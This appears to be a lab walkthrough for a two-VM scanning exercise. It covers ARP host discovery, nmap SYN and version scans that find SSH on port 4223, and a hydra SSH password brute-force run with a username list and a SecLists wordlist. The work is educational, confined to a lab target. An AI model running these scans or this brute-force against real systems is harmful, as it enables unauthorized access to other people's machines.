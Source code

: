 # SCAN
## 1. Context and Terminology
### 1.1 The OSI Layers in Brief
- Application Layer (HTTP, TLS, SSH, etc.)
Where the “user-facing” parts of networking happen (web traffic, email, etc.).

- Transport Layer (TCP, UDP)
Responsible for the idea of “ports” (e.g., port 80 for HTTP, port 443 for HTTPS, port 22 for SSH).
TCP ensures reliability (handshakes, guaranteed delivery).

- Network Layer (IP)
Responsible for IP addressing and routing. This is where IP addresses (e.g., 192.168.0.10) live.

- Link Layer (Ethernet / Wi-Fi and ARP)
Local network communication, including MAC addresses and ARP (Address Resolution Protocol).

### 1.2 What Is Scanning?
- Host Discovery (Are you alive?)
At the link layer, ARP is key on a local network (subnet). ARP stands for Address Resolution Protocol, which maps an IP address to a MAC address.
At higher layers, “ping scans” or “ICMP echo requests” can also discover hosts.

- Port Discovery (Which ports are open?)
Once you know a host is alive, you typically run a TCP scan with a tool like Nmap to see which ports (services) are available and listening.

### 1.3 Your Setup (Simplified)
- VM #1: 01_scan_laptop (you control this)
- VM #2: 01_scan_RRF-CONTROL (the target)

## 2. Getting Started on 01_scan_laptop
### 2.1 Log In via SSH
```bash
ssh -p 10122 root@127.0.0.1
```
![image](https://github.com/user-attachments/assets/a37ef25a-30be-4045-9cee-48bd5090fe9d)
```bash
ip a
```
![image](https://github.com/user-attachments/assets/ae7b99cc-239f-47de-b92a-069f0fdba648)

## 3. Step 1 — Find the Server’s IP via ARP
### 3.1 Determine Subnet
```bash
ip addr show enp0s8
```
![image](https://github.com/user-attachments/assets/271fabec-d66b-49e7-a969-0e56eb886cd6)
### 3.2 ARP Scan with arp-scan
```bash
arp-scan --interface=enp0s8 192.168.0.0/16
```
```
# sudo arp-scan --interface=enp0s8 192.168.0.0/16
-bash: sudo: command not found
# arp-scan --interface=enp0s8 192.168.0.0/16
Interface: enp0s8, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9.5 with 65536 hosts (https://github.com/royhills/arp-scan)
192.168.23.42   08:00:27:d0:e5:21       Cadmus Computer Systems
```
## 4. Step 2 — Identify Open Ports on the Target
### 4.1 Basic TCP Port Scan with Nmap
- -sS
A “SYN scan,” the most common and somewhat stealthier TCP scan.
- -p-
Scans all ports (1 through 65535). This is slower, but ensures you don’t miss any potential open port.
- -T4
Increases speed (timing template “4” is fairly aggressive). Keep in mind on a 10 Mbps network, it can still take a while.

```bash
nmap -sS -p- -T4 192.168.23.42
nmap -sS 192.168.23.42 -T4
```
![image](https://github.com/user-attachments/assets/8141ba28-8f07-44ec-9f39-aaf6111aee40)
![image](https://github.com/user-attachments/assets/72cb2057-d147-4860-9cf4-5206f096b047)

- found an open port: 4223/tcp on 192.168.23.42
![image](https://github.com/user-attachments/assets/cd099ed5-2e2a-4581-86da-e475366dbb51)

### 4.2 Service & Version Detection
```bash
nmap -sS -sV -p- -T4 192.168.56.XXX
```
```
Nmap scan report for 192.168.23.42
Host is up (0.00020s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4223/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
MAC Address: 08:00:27:D0:E5:21 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1388.52 seconds
```

## 5. Step 3 — “Find a Way In”
![image](https://github.com/user-attachments/assets/eaa17001-496e-42c0-8ea2-7f0e67ebb270)

```bash
cat <<EOF > usernames.txt
rrf-control
admin
root
trinity
neo
EOF
```

```bash
 hydra -L usernames.txt -P /SecLists/Passwords/xato-net-10-million-passwords-1000.txt -t 4 -vV ssh://192.168.23.42 -s 4223
```
### Found
![image](https://github.com/user-attachments/assets/c6752bcd-4396-4bd1-886d-938243ab85e3)






